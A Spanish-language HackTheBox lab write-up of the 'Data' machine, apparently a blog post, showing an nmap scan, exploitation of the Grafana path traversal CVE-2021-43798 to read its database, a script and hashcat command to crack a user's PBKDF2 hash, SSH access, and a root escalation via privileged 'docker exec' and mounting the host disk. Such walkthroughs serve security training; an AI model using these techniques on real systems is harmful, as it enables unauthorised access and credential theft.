






# Introducción

El día de hoy veremos la máquina **Data** de la plataforma de HackTheBox. Se trata de una máquina Linux de nivel fácil que aborda los siguientes conceptos:

- Grafana Path Traversal (CVE-2021-43798) — Arbitrary file read
- Credential extraction and cracking from the Grafana database
- Privilege escalation via Docker using the --privileged flag


## Resolución

# Reconocimiento

Iniciamos el proceso con un escaneo exhaustivo de puertos utilizando `nmap` para identificar los servicios activos en el sistema objetivo:

```bash
nmap -p- --open -sSCV --min-rate 5000 -n -Pn -vvv 10.129.234.47 -oN puertos.txt
```

```
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
3000/tcp open  http    syn-ack ttl 62 Grafana http
|_http-title: Grafana
|_Requested resource was /login
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

El escaneo revela únicamente dos puertos abiertos: SSH (22) y un servicio web en el puerto 3000 identificado como **Grafana**. La superficie de ataque es reducida, lo que nos orienta directamente hacia la aplicación web.


### Puerto 3000 — Grafana

Al acceder al servicio web, encontramos un panel de autenticación de Grafana:



Inspeccionando el pie de página de la página de login, podemos identificar la versión exacta: `v8.0.0 (41f0542c1e)`


# Explotación

### CVE-2021-43798 — Path Traversal en Grafana

Buscando vulnerabilidades asociadas a la versión `8.0.0`, encontramos el **CVE-2021-43798**, un Path Traversal que afecta a Grafana en versiones anteriores a la `8.3.1`. Esta vulnerabilidad permite a un atacante **no autenticado** leer archivos arbitrarios del servidor mediante una petición HTTP especialmente construida hacia el endpoint de plugins. El servidor no valida correctamente la ruta solicitada, permitiendo atravesar directorios con secuencias `../` y acceder a ficheros fuera de la raíz web.

Utilizamos un exploit de Exploit-DB: https://www.exploit-db.com/exploits/50581

Lo ejecutamos:

```bash
python3 exploit.py -H http://10.129.234.47:3000/
```



El exploit nos ofrece un prompt interactivo para leer archivos del sistema. Aprovechamos esto para acceder a la **base de datos SQLite** de Grafana, que por defecto se almacena en `/var/lib/grafana/grafana.db`:


La exfiltración tiene éxito y obtenemos el fichero de base de datos.


### Extracción de credenciales desde la base de datos

Abriendo la base de datos con cualquier cliente SQLite, localizamos la tabla `user` y extraemos las credenciales almacenadas. Entre los usuarios encontramos a `admin` y a **boris**, siendo este último el más interesante por tratarse de una cuenta no estándar.

Los campos relevantes del usuario `boris` son:

- hash:`dc6becccbb57d34daf4a4e391d2015d3350c60df3608e9e99b5291e47f3e5cd39d156be220745be3cbe49353e35f53b51da8`
- salt:`LCBhdtJWjl`
- rand:`mYl941ma8w`

- **Salt**: valor aleatorio que se combina con la contraseña antes de aplicar la función hash. Su propósito es evitar que contraseñas idénticas produzcan el mismo hash y dificultar el uso de tablas rainbow.
- **Rand**: campo adicional de aleatoriedad utilizado internamente por Grafana, no es necesario para el crackeo del hash.

Grafana utiliza **PBKDF2-HMAC-SHA256** con 10.000 iteraciones para almacenar las contraseñas. Hashcat espera este formato:

```
sha256:<iteraciones>:<salt_en_base64>:<hash_en_base64>
```

El hash almacenado en la base de datos está en hexadecimal, por lo que es necesario convertirlo antes de construir la cadena. Usamos el siguiente script:

```python
import base64
import binascii

PASSWORD_HEX = "dc6becccbb57d34daf4a4e391d2015d3350c60df3608e9e99b5291e47f3e5cd39d156be220745be3cbe49353e35f53b51da8"
SALT_STR = "LCBhdtJWjl"
ITERATIONS = 10000

# Convertir el hash hexadecimal a binario y luego a Base64
target_raw = binascii.unhexlify(PASSWORD_HEX)
target_hash64 = base64.b64encode(target_raw).decode()

# Codificar el salt en Base64
salt64 = base64.b64encode(SALT_STR.encode()).decode()

print(f"sha256:{ITERATIONS}:{salt64}:{target_hash64}")
```

La salida generada es:

```
sha256:10000:TENCaGR0SldqbA==:3GvszLtX002vSk45HSAV0zUMYN82COnpm1KR5H8+XNOdFWviIHRb48vkk1PjX1O1Hag=
```

Guardamos esta cadena en `hash.txt` y procedemos a crackearla con Hashcat usando el modo `10900` (PBKDF2-HMAC-SHA256):

```bash
hashcat -m 10900 hash.txt /usr/share/wordlists/rockyou.txt
```



Hashcat descifra el hash exitosamente y obtenemos la contraseña en texto claro:`beautiful1`


### Acceso por SSH

Probamos las credenciales obtenidas para conectarnos por SSH:

```bash
ssh boris@10.129.234.47
```



El acceso es exitoso. La flag de usuario se encuentra en:

```
/home/boris/user.txt
```


# Escalada de privilegios

### Enumeración de permisos sudo

Lo primero que hacemos al obtener acceso como un usuario con privilegios limitados es enumerar qué comandos podemos ejecutar como `root` mediante `sudo`:

```bash
sudo -l
```

```
User boris may run the following commands on localhost:
    (root) NOPASSWD: /snap/bin/docker exec *
```

Boris puede ejecutar `docker exec` como `root` sin necesidad de contraseña. Esto es un vector de escalada de privilegios conocido.


### Explotación de Docker con `--privileged`

**Paso 1 — Identificar el contenedor en ejecución**

Primero necesitamos conocer el ID del contenedor activo. Grafana corre dentro de un contenedor Docker, y al explotar el CVE-2021-43798 previamente, pudimos leer el fichero `/etc/hostname` del sistema, que contenía el ID del contenedor: `e6ff5b1cbc85`.



**Paso 2 — Ejecutar una shell privilegiada dentro del contenedor**

Usamos `docker exec` con los flags `-u root` (ejecutar como root dentro del contenedor) y `--privileged` (otorgar al contenedor acceso completo a los dispositivos del host):

```bash
sudo docker exec -u root --privileged -it e6ff5b1cbc85 bash
```

Ahora tenemos una shell de root dentro del contenedor con acceso a todos los dispositivos del sistema anfitrión.

**Paso 3 — Identificar el dispositivo del host y montar el sistema de ficheros**

Inspeccionamos los montajes actuales dentro del contenedor para identificar el dispositivo de bloque del host:

```bash
mount
```


En la salida observamos que `/dev/sda1` está montado en varios puntos como `/etc/hostname`, `/etc/hosts` y `/etc/resolv.conf`, lo que confirma que es la partición raíz del sistema anfitrión. Montamos este dispositivo en `/mnt` para tener acceso completo al filesystem del host:

```bash
mount /dev/sda1 /mnt
```

Con el sistema de ficheros del host montado, podemos acceder directamente a los archivos del usuario `root`:



Tenemos acceso completo como **root** al sistema anfitrión. La flag de root se encuentra en:

```
/root/root.txt
```

¡Ya somos root! 🎉